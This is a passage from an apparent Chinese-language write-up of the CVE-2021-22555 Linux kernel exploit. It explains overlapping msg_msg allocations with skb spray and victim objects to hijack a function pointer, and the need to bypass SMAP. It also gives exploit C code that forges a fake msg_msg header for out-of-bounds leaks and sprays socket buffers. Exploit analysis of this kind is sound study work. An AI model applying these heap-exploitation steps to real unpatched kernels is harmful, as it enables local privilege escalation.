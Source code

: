 ##### （7）spray对象和victim对象占据msg_msg

使用包含函数指针的victim结构体和spray结构体（skb）来占据`msg_msg`。假设现在主消息1和主消息2的`msg_msg->m_list->next`指向同一辅助消息。

- 1.主消息1放弃辅助消息msg_msg, skb占据msg_msg

- 2.主消息2放弃辅助消息msg_msg, victim结构占据msg_msg

- 3.此时skb与victim结构占据同一内存空间

- 4.修改skb劫持victim结构内函数指针

- 5.触发victim结构函数指针，劫持控制流

但是注意到当实现步骤2时，必须伪造`msg_msg->m_list->next`成员，如果此时主消息2释放msg_msg，辅助消息会被从循环链表`msg_msg->m_list`中去除，也就是说此阶段会涉及到对于`msg_msg->m_list->next`的读写，因为开启了smap保护机制，所以在用户态伪造该字段无意义，内核在此处会检查到smap错误，利用失败，所以接下来需要绕过SMAP。

#### 3-2 避免崩溃：伪造`msg_msg->m_list->next & prev`指针

##### （1）释放被重复引用的辅助消息

```c
  printf("[*] Freeing real secondary message...\n");
  if (read_msg(msqid[real_idx], &msg_secondary, sizeof(msg_secondary),
               MTYPE_SECONDARY) < 0)
    goto err_rmid;
```

![5](/images/posts/CVE-2021-22555/5.png)

##### （2）skb堆喷并伪造辅助消息

**注意**：**伪造`m_ts`字段**（最大化），表示消息长度，以便越界读取，泄露地址。

```c
void build_msg_msg(struct msg_msg *msg, uint64_t m_list_next,
                   uint64_t m_list_prev, uint64_t m_ts, uint64_t next) {
  msg->m_list_next = m_list_next;
  msg->m_list_prev = m_list_prev;
  msg->m_type = MTYPE_FAKE;
  msg->m_ts = m_ts;
  msg->next = next;
  msg->security = 0;
}

int spray_skbuff(int ss[NUM_SOCKETS][2], const void *buf, size_t size) {
  for (int i = 0; i < NUM_SOCKETS; i++) {
    for (int j = 0; j < NUM_SKBUFFS; j++) {
      if (write(ss[i][0], buf, size) < 0) {
        perror("[-] write");
        return -1;
      }
    }
  }
  return 0;
}
```